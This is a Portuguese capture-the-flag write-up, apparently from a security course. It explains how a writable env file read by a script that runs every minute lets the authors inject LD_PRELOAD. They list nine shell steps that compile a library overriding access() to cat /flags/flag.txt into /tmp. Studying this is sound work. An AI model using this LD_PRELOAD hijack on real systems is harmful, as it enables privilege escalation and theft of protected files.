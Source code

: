No diretorio /home/flag_reader deparamo-nos com alguns ficheiros relevantes para a resolução do problema. 

my_script.sh:
![img1](https://cdn.discordapp.com/attachments/1153998326274994216/1161367814062477403/image.png?ex=65380b10&is=65259610&hm=b6893a1c9c1f34c6815226817a94eebb03ec3520069ed24f469258c3c00bde8b&)

main.c:
![Alt text](https://cdn.discordapp.com/attachments/1153998326274994216/1161368243156557915/image.png?ex=65380b76&is=65259676&hm=b63ca5a9b761269fa57b1fecf2c88f63890a22e4154926f6caf8dc6bea96002c&)


Neste diretório podemos tambem verificar que o ficheiro env pode ser alterado a partir de outro diretório tmp. Diretório no qual temos permissões de leitura, escrita e execução. Deste modo, pretendemos explorar a vulnerabilidade a partir daí.      
Ficheiros que estão na pasta flag_reader: 
![Alt text](https://cdn.discordapp.com/attachments/1153998326274994216/1161368330372915210/image.png?ex=65380b8b&is=6525968b&hm=55a65ef4e8a38266460f79050f28e1389678558e368f4687ded7519a7edbcc4c&)
![Alt text](https://cdn.discordapp.com/attachments/1153998326274994216/1161368405178331246/image.png?ex=65380b9c&is=6525969c&hm=9308648dab331bf32b5ef4f2b7172a68c7a245c29d57e621a53f4ba2f594cc0a&)

No diretório do tmp verificamos que existe um ficheiro env. Neste preciso momento em que descobrimos o ficheiro env, demos conta que a partir de uma biblioteca partilhada entre os diretórios seria possível fazer overload da função access() localizada em main.c, usando o commando system, para passarmos as variáveis de ambiente que editarmos na pasta tmp, e obtermos a flag escrita para um ficheiro(myfile.txt) num diretorio em que teriamos total controlo sobre o mesmo(tmp).

Para descobrirmos a flag procedemos aos seguintes comandos: 

1) touch printenv.c 
2) echo "#include <stdio.h>" >> printenv.c
3) echo "int access(const char *pathname, int mode) { " >> printenv.c
4) echo "system(\"/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt\");" >> printenv.c
5) echo "return 0;" >> printenv.c
6) echo " } " >> printenv.c
7) gcc -fPIC -g -c printenv.c
8) gcc -shared -o libmylib.so.1.0.1 printenv.o -lc
9) echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env

Neste momento, após a execução destes 9 passos, apenas temos que esperar que o script corra de forma automática.   
Script em questão:
![img](https://cdn.discordapp.com/attachments/1153998326274994216/1161368492650537071/image.png?ex=65380bb1&is=652596b1&hm=ef14e614d7cb66faada936304f3fbafae324d020b4899e2d19342d13107f1c85&)
De acordo com a foto podemos verificar que o script corre de 1 em 1 minutos aos 00 segundos. 

Depois de esperarmos que o script ocorra:
![img](https://cdn.discordapp.com/attachments/1153998326274994216/1161369119707365446/image.png?ex=65380c47&is=65259747&hm=f58f5764324595636f75a47aba2ddd6498697e37f9c3dbfa63442fe7f5c426db&)
